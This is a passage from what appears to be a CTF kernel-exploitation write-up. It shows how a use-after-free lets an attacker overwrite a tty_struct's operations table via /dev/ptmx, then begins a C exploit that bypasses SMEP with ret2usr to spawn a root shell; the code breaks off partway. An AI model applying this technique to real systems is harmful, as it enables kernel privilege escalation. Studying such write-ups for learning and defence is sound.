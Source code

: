 ```c
			unsigned int set, unsigned int clear);
	int (*resize)(struct tty_struct *tty, struct winsize *ws);
	int (*set_termiox)(struct tty_struct *tty, struct termiox *tnew);
	int (*get_icount)(struct tty_struct *tty,
				struct serial_icounter_struct *icount);
	int  (*get_serial)(struct tty_struct *tty, struct serial_struct *p);
	int  (*set_serial)(struct tty_struct *tty, struct serial_struct *p);
	void (*show_fdinfo)(struct tty_struct *tty, struct seq_file *m);
#ifdef CONFIG_CONSOLE_POLL
	int (*poll_init)(str
    
    uct tty_driver *driver, int line, char *options);
	int (*poll_get_char)(struct tty_driver *driver, int line);
	void (*poll_put_char)(struct tty_driver *driver, int line, char ch);
#endif
	int (*proc_show)(struct seq_file *, void *);
} __randomize_layout;
```

We can modify it and use options such as `write(tty)` or `close(tty)` to trigger our gadgets.
The attacking procedure would be like
```c 
// UAF a 0x2e0 kernel chunk
int fd = open("\dev\ptmx")
// ... Modify the tty_struct.ops to control the the tty_struct.ops->write
write(fd,buf,1)
```

The full exploit script could use the address got while debugging because there is no kaslr. But there is `SMEP`, my exploit script bypasss the `SMEP` and perform `ret2usr` to get the shell.
```c
#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <unistd.h>
#include <sys/ioctl.h>
#include <stdlib.h>
#include <sys/wait.h>
#include <sys/stat.h>
#include <stdint.h>
typedef unsigned int uint;

void panic(char *s)
{
    printf("[!] Panic:");
    puts(s);
    exit(1);
}
void shell(){
    if(!getuid())
    {
        system("/bin/sh");
    }
    else{
        puts("[!] NO ROOT");
    }
}
size_t user_cs, user_ss, user_rflags, user_sp;
void save_status()
{
    __asm__("mov user_cs, cs;"
            "mov user_ss, ss;"
            "mov user_sp, rsp;"
```

[1]: https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/kernel
[2]: https://github.com/n132/attachment
[3]: https://github.com/n132/attachment/tree/main/CISCN_2017
[4]: https://code.woboq.org/linux/linux/include/linux/tty.h.html#tty_struct
[5]: https://code.woboq.org/linux/linux/include/linux/tty_driver.h.html#tty_operations